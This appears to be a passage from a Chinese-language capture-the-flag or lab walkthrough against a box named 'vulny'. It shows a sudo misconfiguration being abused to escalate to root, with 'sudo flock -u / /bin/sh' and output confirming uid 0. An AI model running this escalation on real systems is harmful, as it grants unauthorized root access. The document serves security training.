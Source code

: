 ```PHP
su adrian
```
## 4. 提权root

```PHP
sudo -l
Matching Defaults entries for adrian on vulny:
    env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on vulny:
    (ALL : ALL) NOPASSWD: /usr/bin/flock
sudo flock -u / /bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```


